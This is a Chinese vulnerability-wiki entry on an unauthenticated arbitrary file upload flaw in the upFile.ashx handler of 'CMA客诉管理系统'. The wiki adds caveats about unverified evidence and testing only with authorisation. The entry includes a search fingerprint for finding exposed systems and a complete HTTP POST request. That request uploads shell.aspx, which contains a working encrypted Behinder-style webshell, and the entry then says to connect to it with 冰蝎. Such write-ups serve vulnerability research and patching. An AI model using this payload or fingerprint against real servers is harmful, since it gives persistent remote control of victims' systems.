



# CMA客诉管理系统 upFile.ashx上传

## 条目说明

- 对象与具体问题：CMA客诉管理系统；upFile.ashx上传
- 版本、配置及部署条件：ASP.NET部署；版本未知
- 认证与权限前提：无Cookie示例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 持久webshell与服务器控制结论需风险和执行条件；缺版本/修复
- 图未视检，路径回显无文本，Host空

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

CMA客诉管理系统 upFile.ashx文件存在任意文件上传漏洞，通过漏洞攻击者可以上传任意文件控制服务器

### 漏洞影响

```
CMA客诉管理系统
```

### 网络测绘

```
title="CMA客诉管理系统手机端"
```

### 漏洞复现

登录页面



发送请求包上传文件

```http
POST /upFile/upFile.ashx HTTP/1.1
Host: 
Content-Length: 562
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymXf9pBIUlDVOYtnZ
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

------WebKitFormBoundarymXf9pBIUlDVOYtnZ
Content-Disposition: form-data; name="file"; filename="shell.aspx"
Content-Type: application/octet-stream

<%@ Page Language="C#" %><%@Import Namespace="System.Reflection"%><%Session.Add("k","e45e329feb5d925b");byte[] k = Encoding.Default.GetBytes(Session[0] + ""),c = Request.BinaryRead(Request.ContentLength);Assembly.Load(new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(k, k).TransformFinalBlock(c, 0, c.Length)).CreateInstance("U").Equals(this);%>

------WebKitFormBoundarymXf9pBIUlDVOYtnZ--
```

> 请求长度说明：原资料 Content-Length 为 562；保留原始标头；其数值未据实际请求体重新计算或验证。



发送后回显路径，使用冰蝎连接



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
